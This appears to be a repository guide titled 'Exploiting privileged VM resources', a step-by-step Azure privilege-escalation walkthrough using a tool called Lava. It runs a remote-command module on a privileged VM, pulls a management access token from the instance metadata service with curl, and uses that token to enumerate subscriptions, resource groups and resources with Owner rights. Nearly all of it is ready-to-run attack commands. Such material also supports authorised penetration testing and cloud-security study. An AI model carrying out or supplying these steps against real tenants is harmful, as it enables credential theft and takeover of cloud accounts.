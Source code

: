 # Exploiting privileged VM resources

## Tools: Lava

## Requirements: Contributor account/role access

## Steps

#### 1) Run Lava

    python3 Lava.py 

#### 2) Confirm authenticated user

    Lava $> whoami 

#### 3) List all modules

    Lava $> ls 

#### 4) Execute this specific module to list privileged VMs

    Lava $> exec vm_list_privileged 

#### 5) Exploit the Run Command functionality as a Contributor

    Lava $> exec vm_rce -rgrp RESOURCE_GROUP -vm_name PRIVILEGED_VM 

#### 6) In the shell, obtain an access token for the resource manager that can be used to make API calls with the owner privileges

    curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true 

#### 7) Copy the "access_token" value, then press exit to return to the Lava console, then exit again.

### Use the token to run commands against the resource manager with the owner privilege.

#### 8) Store the access token as a variable

    TOKEN="ACCESS_TOKEN_FROM_PREVIOUS_STEP" 

#### 9) Get a list of subscriptions

    curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq 

#### 10) Store the subscriptions ID in a variable

    SUB_ID=$(curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?apiversion=2020-01-01 | jq -r .value[].subscriptionId) 

#### 11) Get a list of resource groups

    curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01 | jq 

#### 12) Get a list of resources

    curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 | jq 

### Now we escalated from the Contributor role to the Owner role.


   


